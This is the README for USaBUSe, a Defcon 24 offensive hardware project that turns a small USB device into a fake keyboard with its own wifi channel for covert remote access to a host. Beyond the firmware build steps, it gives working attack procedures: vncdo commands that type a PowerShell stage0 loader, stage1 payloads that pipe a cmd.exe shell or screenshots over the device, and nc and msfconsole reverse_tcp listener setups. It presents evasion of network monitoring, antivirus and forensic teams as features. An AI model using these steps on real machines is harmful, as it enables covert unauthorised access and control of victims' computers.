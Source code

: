 Introduction
============

Universal Serial aBUSe is a project released at Defcon 24 by Rogan Dawes. We took some fairly common attacks (fake keyboards in small USB devices that type nasty things) and extended them to provide us with a bi-directional binary channel over our own wifi network to give us remote access independent of the host's network. This gives us several improvements over traditional "Rubber Ducky" style attacks:

* We can trigger the attack when we want. No missed executions.
* We don't use the host's network. No hassle on exfil, or potential for NIDS catching us.
* We can shrink our initial typed payload to just open the binary pipe. Much less fragile typing required.
* Lots of heavy lifting can be moved to the hardware, which gives less for stuff like AV to trigger on or DFIR teams to find.
* We don't show up as a network adapter, our binary pipe is an innocuous device, making it harder to spot.

Lastly, we wanted this to be a working, end-to-end, attack. This means we also spent time adding some nifty features like:

* A mouse jiggler to prevent the screen saver from activating (but with no visible movement of the mouse)
* Optimised payloads that are hidden from a user within 4s of their activation
* An ability to integrate your favourite payload

Getting the Code
================

Instructions for building the Universal Serial aBuse firmwares and host software

Start off by performing a recursive clone of the repository:

```
$ git clone --recursive https://github.com/sensepost/USaBUSe
```

This can take some time, please be patient!

Building the ESP8266 firmware
=============================

Once the recursive clone has completed, build the esp-open-sdk (make sure to
build the STANDALONE version!):

```
  $ cd esp-open-sdk
  $ make STANDALONE=n
```

Note: This step MUST be done on a case-sensitive file system! For OS X, create
an extra volume, make sure to select a case-sensitive file system, and do the
above clone --recursive in this file system.

Once the esp-open-sdk has compiled, in the top-level directory, do:

```
  $ wget --content-disposition "http://bbs.espressif.com/download/file.php?id=1046"
  $ unzip ESP8266_NONOS_SDK_V1.5.1_16_01_08.zip
```

If you are on OS X, you will probably need to install GNU sed, and make sure it
is in your PATH. An easy way of doing this is to use HomeBrew:

```
  $ brew install gnu-sed
  $ export PATH="/usr/local/opt/gnu-sed/libexec/gnubin:$PATH"
```

Alternatively, to ensure that it remains accessible after you log out, and to
avoid strange errors on future builds, add it to your bash profile.

If you run into this, be sure to run "make clean" to remove any broken artifacts,
before trying to build again.

At this stage, you should be able to change to the esp-vnc directory, and run
make to build the ESP8266 firmware.

```
  $ cd esp-vnc
  $ make
```

NOTE: It is expected to get errors regarding incorrect parameters passed to stat
on OS X. This is part of the original esp-link makefile, and has not been
corrected. It does not affect the final firmware build, it is just a check to
make sure that the firmware is not too big.

This should result in a user1.bin file in the esp-vnc/firmware directory.

Building the AVR firmware
=========================

OS X can also get the AVR compiler by installing the Arduino app, e.g. Caskroom/cask/arduino

Linux can install using apt-get:

```
  $ sudo apt-get install gcc-avr avr-libc avrdude
```

Once the avr tools are installed, and avr-gcc is in your PATH, compile the avr firmwares:

```
  $ cd avr
  $ make
```

This should build two firmwares, Program_ESP and KeyboardMouseGeneric. i.e you should have .hex files in each directory.

Programming the firmwares
=========================

```
  $ esp-vnc/flash_esp esp-vnc/firmware/user1.bin avr/KeyboardMouseGeneric/KeyboardMouseGeneric.hex
```

Note: The flash_esp and flash_avr shell scripts contain a pattern which usually
manages to identify the serial port that the AVR appears at. If you have other
USB Serial interfaces connected, you may want to either unplug them, or update
the pattern to exclude the incorrect ports.

Interacting with the device
===========================

To send keystrokes and mouse movements to the device, use a VNC client. The
password is hard coded to "password".

To do this in an automated way, the vncdo tool is very useful. It is referenced
as a submodule, to install it:

```
  $ cd vncdotool
  $ python setup.py
```

Note, vncdotool is only compatible with Python2.7, not python 3+

```
  $ vncdo -s esp-link.lan -p password type "echo hello" key enter
```

A more comprehensive example might be:

```
  $ vncdo -s esp-link.lan -p password key alt-r pause 1 type powershell key enter pause 1 typefile powershell/read_exec.ps1
```

If esp-link.lan does not resolve, look for port 23 and 5900 on the local network,
or check your DHCP server.

Interacting with the Generic HID interface requires the victim-side code found
under the powershell/ directory, as well as the attacker-side code found in
stage.sh. 

*A demonstration of a complete, end-to-end attack can be found in attack.sh*

In summary, the way it works is for the attacker to use VNC to type out a stage0
payload (currently using powershell), which has just enough smarts to open the
higher-bandwidth channel (currently only Generic HID is implemented), and load
and execute a more complicated stage1 payload. There are a couple of stage1
payloads implemented currently:

* spawn.ps1 - Run cmd.exe, and pipe stdout/stderr over the device, while reading
  from the device, and writing that to stdin of the process.
* screenshot.ps1 - take a screenshot of the desktop, and send it over the device.
* msf_proxy.ps1 - Open a TCP socket on localhost:65535, and relay data back and
  forth over the device. In a separate thread, invoke the metasploit stage
  loader, connecting to localhost:65535. This can be used to run a msfconsole
  windows/shell/reverse_tcp or even (with some patience!) a full
  windows/meterpreter/reverse_tcp.

Patience is required because the USB device does not have particularly high
bandwidth. Generic HID is limited to 64KB/s, and the UART between the two
microprocessors is limited to 250kbps (25KBps), but other limitations (many
likely due to naive implementation!) limit us even further! Currently, we are
achieving approximately 4KBps.

Patches to improve the speed (and any other aspect of the system) are welcome!

Once the basic stage0 payload has been typed out via VNC, the second stage is
sent via the Generic HID interface (only implementation currently).

read_exec.ps1 expects to receive the next stage in the following format:

```
<stage length high byte><stage length low byte><powershell stage>
```

The included stage.sh shell script takes care of this process for you.

Note! There is an important sleep included between sending the second stage, and
connecting the socket to the final endpoint (msf, etc). The reason for this is
that the second stage may not finish on a 63-byte boundary, and if the final
endpoint starts sending data prematurely, some of that data may end up "packed"
into the empty space in the last packet of the stage2 payload. Currently, the
stage0 loader has no mechanism to keep this data aside for later use by the
second stage, and it gets discarded. Introducing a sleep ensures that any data
from the final endpoint does not get packed in with the stage2 payload, and
avoids data corruption.

Using Metasploit Framework
==========================

The current attack.sh script expects to connect to a listener running on port 4444
on localhost. Exactly what sort of listener that should be depends on the stage1
script that was sent. If you send spawn.ps1, the listener can be a simple
"nc -l -p 4444". If you are sending msf_proxy.ps1, the listener should be an
appropriately configured msfconsole. You can choose your payload as you like,
from the group of payloads that make use of a staged/reverse_tcp connection.

For example:
```
./msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit
```

NB: Do NOT set LHOST to 127.0.0.1, this is an internal "magic number" used by
metasploit for its own purposes. Things randomly break if you do!
